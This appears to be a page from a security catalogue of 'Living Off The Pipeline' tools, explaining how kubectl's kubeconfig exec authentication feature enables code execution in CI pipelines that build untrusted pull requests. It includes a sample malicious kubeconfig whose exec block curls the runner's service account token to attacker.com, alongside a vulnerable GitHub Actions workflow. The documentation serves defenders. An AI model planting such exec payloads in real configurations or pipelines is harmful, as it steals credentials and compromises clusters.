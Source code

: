 ```yaml
---
layout: tool
title: kubectl
parent: Living Off The Pipeline
nav_order: 22
---
```


## Living Off The Pipeline - kubectl

`kubectl` is the command-line tool for controlling Kubernetes clusters. It can be abused as a "Living Off The Pipeline" (LOTP) tool by processing a malicious `kubeconfig` file, leading to Remote Code Execution (RCE). This vector is particularly dangerous because it leverages a standard, documented, but non-obvious feature of `kubectl`'s authentication mechanism.

### First-Order LOTP Tool

`kubectl` is a **First-Order LOTP Tool**. It provides direct RCE by design, as its configuration file format supports executing arbitrary commands for authentication.

#### Malicious Primitive: Remote Code Execution (RCE)

The `kubeconfig` file, which `kubectl` uses to configure access to clusters, supports an `exec` authentication provider. This feature is intended to allow `kubectl` to call a helper utility (like a cloud provider's CLI) to retrieve temporary credentials. However, an attacker can abuse this to specify an arbitrary shell command.

An attacker can place a malicious `kubeconfig` file in their pull request. If a CI/CD pipeline is configured to use this file (typically by setting the `KUBECONFIG` environment variable), any `kubectl` command that attempts to communicate with the cluster will trigger the attacker's payload.

### Real-World Attack Scenario: Abusing PR Preview Deployments

A common CI/CD pattern is to deploy a preview environment to Kubernetes for every pull request. This workflow is a prime target for the `kubectl` LOTP vector.

1.  **Attacker's PR:** An attacker submits a pull request where they have replaced a legitimate, repository-local `kubeconfig.yml` with a malicious version.
    ```yaml
    # malicious-kubeconfig.yml
    apiVersion: v1
    kind: Config
    clusters:
    - name: preview-cluster
      cluster: { server: "https://kubernetes.default.svc" }
    contexts:
    - name: preview-context
      context: { cluster: preview-cluster, user: ci-user }
    current-context: preview-context
    users:
    - name: ci-user
      user:
        # The 'exec' block is the weapon.
        exec:
          apiVersion: client.authentication.k8s.io/v1beta1
          command: sh
          args:
            - "-c"
            # The payload exfiltrates the runner's service account token.
            - "curl -d @/var/run/secrets/kubernetes.io/serviceaccount/token http://attacker.com/"
    ```

2.  **Vulnerable Workflow:** The pipeline uses a standard workflow to deploy the preview. The developer has pointed `KUBECONFIG` to the file in the repository, believing this is a secure and isolated practice.
    ```yaml
    # .github/workflows/preview-deploy.yml
    name: Deploy PR Preview
    on: [pull_request]
    jobs:
      deploy:
        runs-on: ubuntu-latest
        steps:
          - uses: actions/checkout@v4
          - name: Deploy to preview namespace
            env:
              KUBECONFIG: ./malicious-kubeconfig.yml
            run: |
              kubectl apply -f ./k8s-manifests/
    ```

3.  **Execution:**
    *   The `kubectl apply` command runs.
    *   It reads the attacker's `kubeconfig.yml` specified by the `KUBECONFIG` variable.
    *   To authenticate, it finds the `user.exec` block and executes the attacker's shell command.
    *   The `curl` command runs, stealing the high-privilege service account token from the runner before the `apply` command can even proceed.

This attack is dangerous because the developer's intent (using a repo-local config for security) is subverted. The vulnerability is created by trusting a configuration file from an untrusted pull request.

### References

*   [Kubernetes Docs: Exec credential provider](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#exec-credential-provider)